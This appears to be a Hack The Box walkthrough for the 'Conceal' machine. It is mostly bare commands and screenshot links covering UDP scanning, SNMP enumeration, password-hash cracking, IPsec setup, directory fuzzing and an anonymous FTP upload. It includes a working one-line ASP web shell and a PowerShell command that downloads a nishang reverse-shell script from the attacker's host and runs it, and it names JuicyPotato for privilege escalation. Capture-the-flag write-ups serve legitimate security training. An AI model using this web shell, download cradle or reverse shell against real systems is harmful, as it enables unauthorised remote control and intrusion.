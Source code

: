 ```
nmap -sU
snmpwalk
john
ipsec up conceal
ftp
webshell .asp
reverse shell
JuicyPotato
```



```
nmap -sU 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232364715-ff3ffc38-74c1-4413-bfc3-fcae12865969.png)



```
ike-scan 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232364778-a4a13ea3-021b-4d83-8b00-c03c57b5a620.png)



```
snmpwalk -v2c -c public 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232364814-465dd54b-fd4a-41e8-a43e-41c669b5d4cd.png)



```
john hash -w=/usr/share/wordlists/rockyou.txt --format=NT
```
![image](https://user-images.githubusercontent.com/33616880/232364875-518777e7-95f3-41ef-bfbe-53774db9d249.png)


```
https://crackstation.net/
Dudecake1!
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c1b4e31c-0f2c-4bc6-bf11-a97d3ee2f339)


```
apt install strongswan
```
![image](https://user-images.githubusercontent.com/33616880/232364935-4cbb7254-df0b-420b-a78d-6829d4000f61.png)
![image](https://user-images.githubusercontent.com/33616880/232364951-64aa1c8c-7ab1-46bb-aed3-7e50852792e5.png)
![image](https://user-images.githubusercontent.com/33616880/232364962-c98b750a-4e75-45f0-aca8-610f44cd4254.png)



```
ipsec up conceal
```
![image](https://user-images.githubusercontent.com/33616880/232365041-1bdb6e08-96cf-4bd8-bff2-0c379c88a5c8.png)



```
nmap -sT -p- 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232365088-55b7420a-981a-49da-89f9-0a26f7f7fbdf.png)



![image](https://user-images.githubusercontent.com/33616880/232365141-15f38484-a572-42cd-88e0-94e3d5e6e527.png)



```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.116/FUZZ -fc 403 -e .aspx,.php,.txt,.html
![image](https://user-images.githubusercontent.com/33616880/232365179-3ae6cec7-5cc5-4768-8365-bfd5630c7cb4.png)
```
![image](https://user-images.githubusercontent.com/33616880/232365198-6ebb3b00-d084-45d0-a9f8-3dc461c794d0.png)



```
ftp 10.10.10.116 : anonymous
put test.txt
```
![image](https://user-images.githubusercontent.com/33616880/232365238-86c2e89e-90ad-46d2-83fe-6445f34f048d.png)
![image](https://user-images.githubusercontent.com/33616880/232365246-f42f2534-6a5c-45af-a10b-33db27d89131.png)



```
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```
```
http://10.10.10.116/upload/cmd.asp?cmd=whoami
```
![image](https://user-images.githubusercontent.com/33616880/232366101-57441e0d-fc94-4fbb-99d5-d55b856e0ad0.png)
![image](https://user-images.githubusercontent.com/33616880/232366110-7f6082bd-20b8-48b0-a5f1-dadc070b338f.png)
![image](https://user-images.githubusercontent.com/33616880/232366126-b3fc0a5b-6379-4593-9ff0-68a460f93c88.png)



```
git clone https://github.com/samratashok/nishang.git
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
Add payload a line to the end: Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 4444
http://10.10.10.116/upload/cmd.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.7/Invoke-PowerShellTcp.ps1%27)
```
![image](https://user-images.githubusercontent.com/33616880/232365388-518308e7-efb2-4b48-adef-583573a84920.png)
![image](https://user-images.githubusercontent.com/33616880/232365400-966934e9-4409-414f-8ef7-41e86897b1b6.png)
![image](https://user-images.githubusercontent.com/33616880/232365409-b30bd056-5ec7-4a2b-9540-6f0eb3417dd7.png)



```
whoami /priv
```
![image](https://user-images.githubusercontent.com/33616880/232365422-2e537ec4-2461-4de6-b1ef-bb85995c0182.png)

